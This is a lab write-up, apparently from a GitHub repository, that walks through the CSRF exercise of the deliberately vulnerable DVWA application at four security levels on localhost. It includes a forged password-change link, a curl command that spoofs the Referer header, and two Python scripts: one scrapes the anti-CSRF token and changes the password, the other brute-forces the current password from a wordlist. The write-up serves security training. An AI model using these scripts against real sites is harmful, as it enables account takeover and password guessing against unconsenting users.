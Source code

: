 # DVWA - CSRF

## Description

**Vulnerability:** CSRF    
**Impact:** CSRF attack change any accounts' passwords.

---

## LOW Security Level
Make a change password request for testing and inspecting the Network I can see the change password request is a GET request with `password_new` and `password_conf` params:
```
http://localhost/DVWA/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change
```

We can send this URL to trick any users to click on and their accounts' password will be changed.

## MEDIUM Security Level
In this MEDIUM level, it has a check condition before executing code:
```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
// The code
} else {
    // Didn't come from a trusted source
    echo "<pre>That request didn't look correct.</pre>";
}
```
So, we can add a header to this request to change the password (I use a basic `curl` command):
```bash
curl "http://localhost/DVWA/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change" -H "Referer: http://localhost/DVWA/vulnerabilities/csrf/" -b "security=medium; PHPSESSID=<YOUR_SESSION_ID>"
```
This command will change the password.

## HIGH Security Level
THis HIGH security level is similar to Brute-force HIGH security level. They both add a `CSRF Token` to validate before executing the logic.

You can see here there is a check anti CSRF Token
```php
// Check Anti-CSRF token
checkToken( $token, $_SESSION[ 'session_token' ], 'index.php' );

// Generate Anti-CSRF token
generateSessionToken();
```

Also, if you inspect the form in browser you will see a hidden input:
```html
<input type="hidden" name="user_token" value="<RANDOM_USER_TOKEN>">
```

So the workflow is:
1. Make a GET request and take the created CSRF token firstly.
2. Make a GET request like other two levels but we also add a `user_token` param to pass the check.

I have created a exploit Python code:
```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/csrf/"

cookies = {
    "PHPSESSID": "<YOUR_SESS_ID>",
    "security": "high"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

def getCSRFToken():
    try:
        # Take CSRF Token
        res = requests.get(baseUrl, cookies=cookies)

        match = re.search(pattern, res.text)
        if match:
            token = match.group(1)
            
            return token
        else:
            print("Failed to taken token")
            return False
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

def changePassword(user_token):
    newPassword = input('Enter new password: ')

    headers = {
        "Referer": "http://localhost/DVWA/vulnerabilities/csrf/"
    }

    url = baseUrl + f"?password_new={newPassword}&password_conf={newPassword}&Change=Change&user_token={user_token}"

    try:
        res = requests.get(url, cookies=cookies, headers=headers)

        if "Password Changed" in res.text:
            print('Successfully change password')
        else:
            print('Failed to change password')
            print(res.text)
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

user_token = getCSRFToken()
if (user_token):
    changePassword(user_token)
```

## IMPOSSIBLE Security Level
This level seems to impossible to exploit. However, there is a vulnerability: this level requires a new value which is `password_current` in order to check if the user know the current password before changing the new one.

This seems to be secure however unlike the IMPOSSIBLE level of brute-force it will have several checks and also limit the errors. Therefore, in that IMPOSSIBLE brute-force it is kinda hard to brute-force the password. However, this IMPOSSIBLE level in CSRF doesn't check like that.

=> We can brute-force the current password then change new one (even though we doesn't know the current password).

This is my created Python exploit code:
```python
import requests
import re

baseUrl = "http://localhost/DVWA/vulnerabilities/csrf/"

cookies = {
    "PHPSESSID": "<YOUR_SESSS_ID>",
    "security": "impossible"
}

pattern = r"name='user_token' value='([a-fA-F0-9]+)'"

def getCSRFToken():
    try:
        # Take CSRF Token
        res = requests.get(baseUrl, cookies=cookies)

        match = re.search(pattern, res.text)
        if match:
            token = match.group(1)
            
            return token
        else:
            print("Failed to taken token")
            return False
    except requests.exceptions.RequestException as e:
        print("Request error:", e)

def changePassword():
    newPassword = input('Enter new password: ')

    headers = {
        "Referer": "http://localhost/DVWA/vulnerabilities/csrf/"
    }

    try:    
        with open('/usr/share/wordlists/rockyou.txt') as file:
            for line in file:
                password = line.rstrip()
                
                user_token = getCSRFToken()

                if not user_token:
                    print('Failed to fetch token')
                    continue
                

                url = baseUrl + f"?password_current={password}&password_new={newPassword}&password_conf={newPassword}&Change=Change&user_token={user_token}"

                try:
                    print(f'Attempting {password}')
                    res = requests.get(url, cookies=cookies, headers=headers)

                    if "Password Changed" in res.text:
                        print()
                        print(f'Found current password: {password}')
                        print('Successfully change password')
                        exit()
                except requests.exceptions.RequestException as e:
                    print("Request error:", e)
    except FileNotFoundError as e:
        print("File not found:", e)

changePassword()
```


## Resources
- https://owasp.org/www-community/attacks/csrf
- https://www.cgisecurity.com/csrf-faq.html
- https://en.wikipedia.org/wiki/Cross-site_request_forgery
